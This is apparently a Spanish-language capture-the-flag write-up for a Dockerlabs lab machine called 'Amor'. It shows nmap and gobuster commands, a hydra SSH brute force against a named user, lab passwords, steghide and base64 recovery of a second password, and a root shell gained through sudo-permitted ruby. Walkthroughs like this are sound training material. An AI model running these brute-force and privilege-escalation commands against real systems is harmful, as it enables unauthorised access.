




# Writeup: Amor &mdash; Dockerlabs
- **Dificultad:** Fácil
- **Plataforma:** Dockerlabs
- **IP Objetivo:** 172.17.0.2
- **Técnicas Clave:** Enumeración web, Fuerza bruta SSH, Esteganografía, Escalada de privilegios

___
### 1. Reconocimiento
Comenzamos verificando la conectividad con ```ping -a 172.17.0.2``` y realizando un escaneo de puertos con **Nmap**.
  
    $ nmap -p- --open -sS -sC -sV 172.17.0.2 -n -Pn
  
  
#### Resultado:
- **Puerto 22/tcp**
- **Puerto 80/tcp**

___
### 2. Enumeración Web
Al acceder a ```http://172.17.0.2``` vemos un panel de "avisos" de una empres llamada *SecurSEC S.L*.


#### Pistas econtradas en la web:
- **Contraseña débil detectada**
- **Despido de un empleado**

Esto nos da dos posibles usuarios para una futura conexión mediante SSH: ```juan``` y ```carlota```.

### Fuzzing de Directorios
Ejecutamos ```gobuster``` para buscar directorios/rutas ocultas:

    $ gobuster dir -u 172.17.0.2 -w /usr/share/seclists/Discovery/Web-Content/common.txt
  

#### Resultado:
- **```/index.html```** &mdash; (**Status:** ```200```)
- **```/javascript```** &mdash; (**Status:** ```301```)
- **```/server-status```** &mdash; (**Status:** ```403```)

Profundizamos en ```/javascript```:

    $ gobuster -u 172.17.0.2/javascript -w /usr/share/seclists/Discovery/Web-Content/common.txt

#### Resultado:
- **```/jquery```** (301) &mdash; Directorio sin contenido relevante.

___
### 3. Acceso Inicial (Fuerza Bruta)
Con los usuarios obtenidos de la web, lanzamos un ataque de fuerza bruta contra SSH con ```hydra```. Solo se intentó con el usuario ```carlota``` por obvias razones (juan habia sido despedido).

    $ hydra -l carlota -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 16 -f -V -I
  
  
#### Resultado:
- **Usuario:** ```carlota```
- **Contraseña:** ```babygirl```

Accedemos por SSH:

    $ ssh carlota@172.17.0.2

### 4. Enumeración Post-Explotación
Dentro de la máquina, revisamos los permisos y buscamos vectores de escalada.

    id
    sudo -l
    find / -perm 4000 2>/dev/null
  
  

#### Resultado:
- ```carlota``` no tiene permisos ```sudo```
- No hay binarios SUID explotables

Se listó el directorio ```/home/carlota/``` con el fin de encontrar archivos sospechosos:

    $ ls -laR /home/carlota/

Dentro del ```.bashrc``` se encontró un mensaje "oculto":



Esto nos dió varias pistas:
- **Posible usuario:** ```oscar```
- **Palabra clave:** ```vacaciones```
- **Concepto:** "interior de nuestro amor"

### 5. Esteganografía
Conectado las pistas obtenidas en el ```.bashrc``` y el contenido al listar la ruta ```/home/``` de ```carlota```, dimos con el archivo ```imagen.jpg``` en la ruta ```/home/carlota/Desktop/fotos/vacaciones/```.

1.  Extrajimos el archivo con ```steghide``` (no requirio contraseña) y obtuvimos un archivo de texto (```secret.txt```):
2.  Al leerlo con ```cat``` obtuvimos un string codificado en **base64**:
3.  Decodificamos el contenido del archivo con ```base64 -d```

  

#### Resultados:
- **eslacasadepinypon** &mdash; (como posible contraseña de ```oscar```).

___
### 6. Escalada de Privilegios
Cambiamos al usuario ```oscar```:

    $ su oscar

Verificamos los permisos de ```sudo```:

    $ sudo -l

Resultado:



```oscar``` puede ejecutar ```ruby``` como ```root``` sin contraseña. Aprovechamos esto para obtener una shell con privilegios máximos.

    $ sudo ruby -e 'exec "/bin/bash"'

Confirmamos que somos ```root``` y damos por terminada la máquina:

    id && whoami
  
